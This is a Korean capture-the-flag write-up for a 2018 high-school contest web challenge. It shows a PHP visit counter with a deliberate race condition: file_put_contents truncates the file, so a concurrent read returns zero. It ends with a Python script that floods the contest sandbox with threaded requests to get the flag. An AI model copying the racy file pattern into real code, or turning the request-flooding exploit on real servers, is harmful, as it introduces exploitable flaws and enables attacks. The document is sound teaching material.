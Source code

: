 # count (web)
2018 선린인터넷고등학교 교내 해킹방어대회 - 고등해커 출제 문제

------------------

### Summary
고등해커라는 교내 대회에 문제를 출제할 기회가 생겨 예전에 발견하고 묵혀뒀던걸 문제로 만들어봤다.
파일 입출력에서 발생하는 간단한 레이스 컨디션 문제인데, 코드는 아래와 같다.

### Description

```php
<?php
error_reporting(0);
require_once 'flag.php';
# made by munsiwoo

if(isset($_GET['source'])) {
	show_source(__FILE__);
	exit;
}

$cnt_file = 'cnt-[rand]';

if(!file_exists($cnt_file)) {
	file_put_contents($cnt_file, '10');
}

$cnt = (int)file_get_contents($cnt_file); // read count

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents($cnt_file, $cnt); // write count

if($cnt == 1) {
    die($flag);
}

echo $cnt;
?>
<br><a href="?source">source</a>
```
코드를 대충 눈으로 훑어봤을 땐 물론 말도 안되는 코드라고 생각할 수 있다.
우선 이 문제를 이해하고 풀기 위해선 file_*_contents 함수에 대해 알아야 한다.

PHP에서 `file_get_contents`와 `file_put_contents`는 파일 입출력 함수
fopen(), fread(), fwrite(), fclose() 등의 함수를 쓰기 편하게 하나로 합쳐놓은 함수다.
`file_get_contents` 함수는 인자로 받은 파일명으로 해당 파일의 내용을 가져오며
`file_put_contents` 함수는 필수 인자 2개를 받고 파일에 데이터를 쓸 수 있다.

PHP 공식 레퍼런스에 나와있는 `file_put_contents` 사용법을 보자. 

```c
int file_put_contents ( string $filename , mixed $data [, int $flags = 0 [, resource $context ]] )
```
이렇게 `file_put_contents` 함수는 총 4개의 인자를 받을 수 있고
`$flags` 인자에 따로 값을 주지 않으면 기본 값은 `0`이 들어가는 걸 알 수 있다.
[php 소스](https://github.com/php/php-src "php 소스")에서 `src/ext/standard/file.c`를 열어서 들여다보면 `$flags`가 `0`일때의 파일 입출력 모드는 `wb`모드이다.

즉, 따로 `$flags` 인자에 값을 주지 않고 `file_put_contents('a', 'pretty_mun');` 이런식으로 사용한다면
파일 a에 있던 내용을 모두 지우고 `pretty_mun`라는 내용이 들어간다는 것이다.

이 문제는 이러한 `wb`모드의 특징을 이용한 레이스 컨디션 문제다.

```php
$cnt = (int)file_get_contents($cnt_file); // read count

if($cnt == 30) {
    $cnt = 10;
}

$cnt = $cnt + 1;
file_put_contents($cnt_file, $cnt); // write count

if($cnt == 1) {
    die($flag);
}
```
위 소스는 문제 소스중 일부분이다. (line 17 ~ 28)
참고로 `$cnt`의 초기값은 5다. (file_get_contents로 가져온 파일의 내용이 5)

새로고침할 때마다 `$cnt`가 1씩 증가하고 증가한 값을 $cnt_file 파일에 쓴다.
이렇게 쭉 증가하다가 `$cnt`가 30이 되면 `$cnt`를 10으로 초기화한다.
flag를 얻기 위해서는 `$cnt`를 1로 만들어야 하는데, `file_put_contents`의 특징을 모른다면 풀기 힘들 것이다.

하지만 이제 `file_put_contents`의 특징을 알기 때문에 `file_put_contents`로 값을 쓸 때
잠시동안 파일의 내용이 지워지는 그 순간에 `file_get_contents`로 해당 파일을 읽으면
파일의 내용이 없기 때문에 빈 문자열이 읽힐 것이고 이걸 int로 변환하면 `0`이 될 것이다.

즉, 멀티스레딩 혹은 멀티프로세싱으로 동시에 여러번 요청하면 언젠간 겹치게 되고 풀리게 된다는 것이다.

### Exploit (exploit.py)

```python
import requests
import threading
# made by munsiwoo

def request(sandbox) :
	global response
	uri = 'http://game.withphp.com/ouya/sandbox/' + sandbox
	response = requests.get(uri).text

if __name__ == '__main__' :
	sandbox = '80e30ab2318c6a531cdde54c009a54ca/'
	response = ''

	while True :
		threading.Thread(target=request, args=(sandbox,)).start()
		if(response.find('Sunrin{') != -1) : # flag format is Sunrin{...}
			print(response)
			break

	print('End')

```
